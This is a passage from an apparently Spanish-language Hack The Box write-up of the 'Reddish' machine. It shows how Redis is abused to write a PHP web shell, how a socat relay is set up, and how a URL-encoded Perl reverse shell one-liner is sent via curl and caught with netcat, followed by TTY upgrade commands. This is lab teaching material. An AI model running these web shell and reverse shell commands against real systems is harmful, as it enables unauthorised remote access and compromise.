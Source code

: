 ```null
proxychains redis-cli -h 172.19.0.2 config set dbfilename cmd.php
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
OK
```

```null
proxychains redis-cli -h 172.19.0.2 save
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
OK
```

Obtengo RCE

<img src="/writeups/assets/img/Reddish-htb/3.png" alt="">

Este segmento no tiene conectividad con mi equipo

<img src="/writeups/assets/img/Reddish-htb/4.png" alt="">

Subo el ```socat``` al otro contenedor para redirigir todo el tráfico que le llegue por un puerto a mi equipo por el 444. Utilizo ```perl``` para entablar la conexión

```null
root@nodered:/tmp# ./socat TCP-LISTEN:4444,fork TCP:10.10.16.9:444
```

Envío y recibo la reverse shell

```null
curl -s -X GET "http://172.19.0.3/8924d0549008565c554f8128cd11fda4/cmd.php?cmd=perl%20-e%20%27use%20Socket;$i=%22172.19.0.4%22;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22);open(STDOUT,%22%3E%26S%22);open(STDERR,%22%3E%26S%22);exec(%22/bin/sh%20-i%22);};%27"
```

```null
nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.94] 39568
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@www:$ ^Z
zsh: suspended  nc -nlvp 444
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 444
                              reset xterm
www-data@www:$ export TERM=xterm
www-data@www:$ export SHELL=bash
www-data@www:$ stty rows 55 columns 209
```
